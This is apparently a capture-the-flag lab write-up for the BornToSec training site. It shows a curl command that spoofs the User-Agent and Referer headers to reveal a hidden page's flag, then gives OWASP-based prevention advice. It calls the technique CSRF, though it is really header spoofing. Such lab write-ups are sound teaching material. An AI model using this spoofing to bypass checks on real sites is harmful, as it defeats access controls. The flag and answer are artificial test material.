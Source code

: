 # Cross-Site Request Forgery Exploit

## Overview

By clicking on `© BornToSec` at the bottom of the main page which contains the link `http://127.0.0.1:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`, you are redirected to another page.

Inspecting the source code reveals the following comments:

```html
<!-- You must come from : "https://www.nsa.gov/". -->
<!-- Let's use this browser : "ft_bornToSec". It will help you a lot. -->
```

These comments suggest that we should change the User-Agent to make it appear as though you are using a browser named `ft_bornToSec` and modify the Referer header to make it seem like you are coming from `https://www.nsa.gov/`.

## Executing the Exploit

To perform this exploit, you can use the provided script or manually enter the following `curl` command in your terminal:

```sh
curl --silent --user-agent 'ft_bornToSec' --referer "https://www.nsa.gov/" "http://127.0.0.1:8080/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" | grep 'flag'
```

This command will return the following result:

```html
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

Therefore, the flag is: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## Prevention

To prevent such exploits, it is important to implement security measures such as validating the Referer header. For detailed guidance, refer to the OWASP Cheat Sheet on Cross-Site Request Forgery (CSRF) Prevention: [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#identifying-source-origin-via-originreferer-header)
